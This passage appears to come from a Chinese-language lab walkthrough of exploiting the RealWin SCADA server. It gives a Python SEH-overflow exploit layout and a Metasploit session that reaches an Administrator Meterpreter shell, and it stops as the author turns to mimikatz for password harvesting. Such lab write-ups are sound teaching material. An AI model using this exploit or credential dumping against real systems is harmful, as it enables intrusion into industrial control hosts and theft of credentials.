 ![Bildschirmfoto 2018-10-29 um 11.15.08 AM.png]({{ site.url }}/images/metasploit/D201F80B8C05AB72D729A05A9FBF4A53.png)

提示是`Wise`安装包。运行这个包，最后会提醒我输入密码。从[Wise UNpacker GUI(Wise解包工具) v0.90A绿色版](http://www.opdown.com/soft/102257.html)拿一个解包工具吧：

![Bildschirmfoto 2018-10-29 um 11.19.19 AM.png]({{ site.url }}/images/metasploit/48EF9C3D14A817733C532D66AA3FDD3A.png)

输入这个密码，安装成功。

运行界面如下：

![Bildschirmfoto 2018-10-29 um 11.22.13 AM.png]({{ site.url }}/images/metasploit/A18CAA915D9DD2835AB860EB358F9F06.png)

### Exploit

原ExP是有效的，这里就不再给出其验证过程。需要注意的是，它使用的payload是Metasploit的`windows/shell/bind_tcp`，攻击成功后并不会直接给出shell，需要我们在Msf中使用`exploit/multi/handler`去连接目标机器的shell。它使用的依然是覆盖SEH的方法，逻辑如下：

```py
shellcode = "..." # windows/shell_bind_tcp

head = "\x64\x12\x54\x6A\x20\x00\x00\x00\xF4\x1F\x00\x00"
junk = "\x41" * 228
next_seh = "\xeb\x06\x90\x90"   # overwrites next seh
seh = "\xea\xe3\x02\x40"        # seh overwritten at 232 bytes - 4002e3ea
nops = "\x90" * 20              # nop sled
junk2 = "\x42" * (7972 - len(shellcode)) # 1740 bytes for shellcode

s.send(head + junk + next_seh + seh + nops + shellcode + junk2 + "\r\n")
```

排布一目了然。

我们也不再改写它，直接使用Metasploit中的`exploit/windows/scada/realwin_scpc_initialize`进行渗透。

```
msf > use exploit/windows/scada/realwin_scpc_initialize
msf exploit(windows/scada/realwin_scpc_initialize) > set RHOST 172.16.56.134
RHOST => 172.16.56.134
msf exploit(windows/scada/realwin_scpc_initialize) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf exploit(windows/scada/realwin_scpc_initialize) > exploit

[*] 172.16.56.134:912 - Trying target Universal...
[*] Started bind TCP handler against 172.16.56.134:4444
[*] Sending stage (179779 bytes) to 172.16.56.134
[*] Meterpreter session 4 opened (172.16.56.1:62985 -> 172.16.56.134:4444) at 2018-10-29 12:06:52 +0800

meterpreter > getuid
Server username: DESTINY-7846DE5\Administrator
```

接着我们尝试一下`mimikatz`来查找系统中的明文密码：
